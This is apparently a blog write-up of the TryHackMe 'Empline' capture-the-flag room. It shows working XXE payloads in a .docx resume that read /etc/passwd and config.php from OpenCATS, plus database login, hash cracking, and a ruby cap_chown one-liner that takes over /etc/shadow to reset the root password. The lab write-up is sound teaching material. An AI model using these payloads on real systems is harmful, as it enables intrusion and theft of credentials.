 ```yaml
---
title: Try Hack Me Empline
date: 2021-09-19T13:14:49+05:30
lastmod: 2021-09-19T13:14:49+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/empline.png # for tryhackMe
simg: /img/empline.png

categories:
  - TryHackMe
tags:
  - tryhackme
  - rooms
  - thm

draft: false
description: TryHackMe Room {Empline} solved by Animesh Roy. this is a walkthough. read more...

---
```


## OverView

|||
|---|---|
| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|Empline|![logo](https://tryhackme-images.s3.amazonaws.com/room-icons/189112ffef41c0fa813d7d5b394a58b5.png)|
| <b> Empline [Subscription Required] </b>| [Empline](https://tryhackme.com/room/empline)|

Are you good enough to apply for this job?

## Enumeration

### Nmap

```bash
sudo nmap -sC -sV -oN nmap/init 10.10.127.35
[sudo] password for anir0y: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-19 13:18 IST
Nmap scan report for 10.10.127.35
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Empline
3306/tcp open  mysql   MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 86
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, IgnoreSigpipes, Speaks41ProtocolOld, SupportsTransactions, SupportsCompression, FoundRows, InteractiveClient, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, ODBCClient, LongPassword, ConnectWithDatabase, SupportsLoadDataLocal, LongColumnFlag, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommi
|   Salt: N|F*;+c3re'0ZUy#?Sd'|
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.67 seconds
```

|Port|service|remarks
|---|---|---|
|22|SSH|will check this one later|
|80|HTTP| web-service|
|3306|MySQL| kinda odd, usually MySQL port/services aren't exposed on external IP|

### HTTP Enumeration

#### port:80

![img](https://i.imgur.com/5JIXGQa.png)

nothing important. gobuster returns no `intresting` results.

![img](https://i.imgur.com/5M4xfrp.png)

one new `sub-domain` linked with `Employment` menu. let's add that to our local `/etc/hosts` file.

#### job.empline.thm

![img](https://i.imgur.com/GHRimOl.png)

* CMS is `opencats`
* Version 0.9.4 Countach
* A vulnerabilty `CVE-2019-13358` can be exploited.
* ref to original [blog post](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)

## Payload

### XXE on job.empline.thm

* generate the document file:

     ```python
     #!/usr/bin/env python3
     from docx import Document
     document = Document()
     paragraph = document.add_paragraph('anir0y')
     document.save('payload.docx')
     ```

* unzip the document file and add the payload to read `/etc/passwd` file.

     ```xml
     <!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
     ```

* For the second modification, we need to find and change my name(`anir0y`) which was the only content that was in the resume. We will swap out my name with this:

     `&test;`

* goto the URL: `job.empline.thm/careers/` and apply for the job with our `payload.docx` as resume.
* it worked!!!
  
     ![img](https://i.imgur.com/w4mSOfH.png)

* now let's try reading the `config.php` on root dir.

     ```xml
     <?xml version='1.0' encoding='UTF-8' standalone='yes'?>
     <!DOCTYPE test [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=config.php'>]>
     <w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:mo="http://schemas.microsoft.com/office/mac/office/2008/main" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:mv="urn:schemas-microsoft-com:mac:vml" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 wp14"><w:body><w:p><w:r><w:t>&test;</w:t></w:r></w:p><w:sectPr w:rsidR="00FC693F" w:rsidRPr="0006063C" w:rsidSect="00034616"><w:pgSz w:w="12240" w:h="15840"/><w:pgMar w:top="1440" w:right="1800" w:bottom="1440" w:left="1800" w:header="720" w:footer="720" w:gutter="0"/><w:cols w:space="720"/><w:docGrid w:linePitch="360"/></w:sectPr></w:body></w:document>
     ```

* save it to the `payload.docx`

     ```bash
     ┌──(anir0y㉿kali)-[~/…/thm/room/empline/xxe]
     └─$ zip payload.docx word/document.xml 
     updating: word/document.xml (deflated 65%)
     ```

* reupload the file.
  
  ![img](https://i.imgur.com/D69DfgA.png)

* save the encoded output to a file and decode it with base64 decoder. you can find the  `DB creds`. as we already know `mysql` is listening on IP. let's try connecting with it.

> PS: I did try the creds for SSH; didn't worked!! :(

### MySQL

* login to remote db
  
  ![img](https://i.imgur.com/38Ccqil.png)

* found user creds:
  
  ![img](https://i.imgur.com/CePlnsF.png)

* let's crack the hash.
  
     ![img](https://i.imgur.com/kM5HkTC.png)

only password I was able to crack with `rockyou.txt` is for `george`

## User.txt

* now we have creds for `george`; SSH into the machine with his creds.
* the creds worked!!! 
* now we can read `user.txt` file.
  
  ![img](https://i.imgur.com/buJSaNJ.png)

---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

## root.txt

* let's run `linpeas`
* intresting finding for `Capabilities`
  
  `/usr/local/bin/ruby = cap_chown+ep`

* take ownership of `/etc/shadow` file
  
  `ruby -e 'File.chown(1002,1002,"/etc/shadow")'`

* change root password

     ```python
     python -c "import crypt, getpass, pwd; \
          print crypt.crypt('password', '\$6\$SALTsalt\$')"
     ```

     ```bash
     edit /etc/shadow with new generated hash
     # before
     root:$6$1cvOcl49$/czKHKvBaz450J3YnIvkqexT.StvdgUWzPr5X1Aitt/kxgF/i78wziX3zJQ0y8Kg9y749Qjr5EFiHmTdPsIJH/:18828:0:99999:7:::
     #now
     root:$6$SALTsalt$UiZikbV3VeeBPsg8./Q5DAfq9aj7CVZMDU6ffBiBLgUEpxv7LMXKbcZ9JSZnYDrZQftdG319XkbLVMvWcF/Vr/:18828:0:99999:7:::
     ```

* finally we can read the `root.txt` flag.

     ![img](https://i.imgur.com/7uyiAp5.png)

---
<!-- Google Ads -->

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

<!-- END -->

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
